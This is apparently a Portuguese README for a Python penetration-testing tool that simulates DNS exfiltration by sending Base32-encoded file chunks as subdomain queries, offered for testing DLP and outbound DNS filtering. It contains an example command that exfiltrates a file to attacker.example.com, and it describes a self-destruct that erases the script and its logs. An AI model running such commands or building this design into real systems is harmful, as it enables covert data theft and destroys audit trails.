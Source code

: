 # 🛡️ DNS Exfiltration Simulation Script

Este script simula uma técnica real de exfiltração de dados via consultas DNS, com foco em **testes de penetração autorizados**. Ele codifica o conteúdo de um arquivo em Base32 e envia os dados em partes como subdomínios de um domínio controlado pelo avaliador de segurança.

---

## ⚠️ AVISO LEGAL

> **USO EXCLUSIVO EM AMBIENTES AUTORIZADOS**
>
> Este código destina-se **exclusivamente** a avaliações de segurança **autorizadas** por escrito, dentro de escopo definido com o cliente.  
> **O uso não autorizado é ilegal** e pode violar leis de privacidade e segurança da informação.  
> O autor **não se responsabiliza** por uso indevido ou malicioso deste código.

---

## 📌 Funcionalidades

- Exfiltração simulada de arquivos via DNS (codificados em Base32).
- Controle por linha de comando (`--file`, `--domain`, `--dns`).
- Logs detalhados com identificador de sessão.
- Autodestruição do script e logs após tempo limite.
- Uso de servidor DNS personalizado com `dnspython`.

---

## ✅ Requisitos

- Python 3.x
- [dnspython](https://pypi.org/project/dnspython/)

```bash
pip install dnspython
```

---

## 🚀 Como Usar

### 1. Configure um domínio controlado (ex: via servidor DNS personalizado ou redirecionamento).
### 2. Prepare o arquivo a ser exfiltrado (ex: `dados_teste.txt`).
### 3. Execute o script com os parâmetros desejados:

```bash
python dns_exfil.py --file dados_teste.txt --domain attacker.example.com --dns 8.8.8.8
```

Parâmetro         | Descrição
------------------|---------------------------------------------------
`--file`          | Caminho do arquivo que será exfiltrado (padrão: `dados_teste.txt`)
`--domain`        | Domínio controlado pelo atacante para capturar os dados
`--dns`           | Servidor DNS utilizado para a resolução das consultas

---

## 📂 Logs

Todas as atividades são registradas no arquivo `dns_exfiltration.log`, incluindo:

- Identificador único da sessão
- Chunks enviados
- Erros de consulta DNS
- Status da autodestruição

---

## 🢨 Mecanismo de Autodestruição

- O script e seus logs são removidos automaticamente após `180 segundos` (padrão).
- Comportamento controlado pela variável `AUTO_DELETE`.

---

## 🧪 Caso de Uso

Esse script pode ser utilizado para:

- Testar DLP e filtros DNS de saída em firewalls.
- Validar a capacidade de detecção de tráfego DNS suspeito.
- Realizar simulações controladas em ambientes de laboratório.

---

## 📌 Observações

- A exfiltração é fictícia: os dados não são armazenados no domínio remoto (a não ser que você configure um servidor para isso).
- A resolução DNS apenas simula a saída de dados; para captura real, use um servidor DNS escutando requisições.

---

## 🧑‍💻 Autor

Este projeto foi desenvolvido para fins educacionais e de avaliação profissional de segurança cibernética em ambientes controlados. Não me responsabilizo por qualquer uso indevido do código ou distribuíção que não seja para o fim ao qual foi projetado.

---

